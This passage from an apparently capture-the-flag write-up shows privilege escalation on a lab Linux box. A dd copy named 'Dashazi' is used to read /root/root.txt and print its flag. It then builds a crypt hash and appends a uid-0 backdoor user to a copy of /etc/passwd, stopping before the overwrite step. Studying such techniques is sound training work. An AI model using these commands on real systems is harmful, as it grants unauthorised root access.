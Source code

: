 ```bash
umzyyds@Umz:~$ ./Dashazi --version
dd (coreutils) 8.30
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Paul Rubin, David MacKenzie, and Stuart Kemp.
```
The `dashazi` file is a copy of the `dd` file and following up on the command on `GTFObins` we can read any file we want. 
To read the root flag
```bash
umzyyds@Umz:~$ ./Dashazi if=/root/root.txt
flag{root-a73c45107081c08dd4560206b8ef8205}
0+1 records in
0+1 records out
44 bytes copied, 0.00483868 s, 9.1 kB/s
```
Finally we get the root flag. Apart from reading any file we can also write to any file and in any folder. 
To show this we are going to create another passwd file but with another user that we control that has root access.
1. create a password hash (password: `toor`, salt:`aa`)
```bash
umzyyds@Umz:~$ perl -le 'print crypt("toor", "aa")'
aalIoK7SGUI2k
```
2. Add the new user and their password to the passwd file
```bash
umzyyds@Umz:~$ ./Dashazi if=/etc/passwd of=/tmp/passwd.original status=none
umzyyds@Umz:~$ cp /tmp/passwd.original /tmp/passwd.modified
umzyyds@Umz:~$ echo "cyxteen:aalIoK7SGUI2k:0:0:superuser:/root:/bin/bash" >> /tmp/passwd.modified
umzyyds@Umz:~$ cat /tmp/passwd.modified
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
welcome:x:1000:1000:,,,:/home/welcome:/bin/bash
umzyyds:x:1001:1001:,,,:/home/umzyyds:/bin/bash
cyxteen:aalIoK7SGUI2k:0:0:superuser:/root:/bin/bash
```
3. copy the modified file to the original `passwd` file. `status=none` suppresses all the errors